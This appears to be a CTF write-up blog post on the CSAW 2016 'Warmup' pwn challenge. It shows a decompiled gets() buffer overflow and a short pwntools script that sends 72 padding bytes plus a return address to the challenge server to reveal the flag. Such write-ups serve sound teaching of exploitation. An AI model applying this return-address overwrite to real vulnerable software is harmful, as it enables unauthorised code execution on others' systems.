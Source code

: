 ```yaml
---
title: '[CSAW 2016] PWN: Warmup Writeup'
author: Megabeets
type: post
date: 2016-09-18T22:01:55+00:00
url: /csaw-2016-pwn-warmup-writeup/
categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - PWN
  - Writeups

---
```

#### **Description:**

> _So you want to be a pwn-er huh? Well let&#8217;s throw you an easy one 😉_  
> _nc pwn.chal.csaw.io 8000_
> 
> _<a class="chal-file" href="https://ctf.csaw.io/static/uploads/8ef117ec4c05f79aebdf043f3d003c2b/warmup" target="_blank">warmup</a>_

Let&#8217;s connect to the server and play with it a little bit:

<pre class="lang:sh decode:true">[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
&gt;Beet

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
&gt;Beetttttttttttttttttttttt

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
&gt;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</pre>

The program says &#8220;WOW:&#8221; followed by a memory address. This address is probably the address of the function we need to execute. Let&#8217;s open IDA to view the code:

<pre class="toolbar:1 lang:c decode:true " title="From HEX-Rays Decompiler">int __cdecl main(int argc, const char **argv, const char **envp)
{
	  char s; // [sp+0h] [bp-80h]@1
	  char v5; // [sp+40h] [bp-40h]@1

	  write(1, "-Warm Up-\n", 0xAuLL);
	  write(1, "WOW:", 4uLL);
	  sprintf(&s, "%p\n", 4195853LL);
	  write(1, &s, 9uLL);
	  write(1, (const void *)'@\aU', 1uLL);
	  return gets(&v5, '&gt;');
}b</pre>

This is a classic BOF (Buffer Overflow) case. The main method uses the `gets()` function to receive the given input and returns it. `gets()` is storing 64 characters (40h). Because there is no validation of the given string we need to supply an input that will exploit the program and make it jump to the wanted address: 0x40060d.

A short python script will do the job:

<pre class="lang:python decode:true ">from pwn import *

r = remote('pwn.chal.csaw.io', 8000)
print r.recv()
r.sendline("A"*72 + "\x0D\x06\x40\x00\x00\x00\x00\x00")
print r.recvline()</pre>

And we got the flag: _FLAG{LET\_US\_BEGIN\_CSAW\_2016}_

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img class="wp-image-149 alignnone" src="https://www.megabeets.net/uploads/megabeets_inline_logo.png" alt="megabeets_inline_logo" width="61" height="45" />Eat Veggies</a>
  </p>
</div>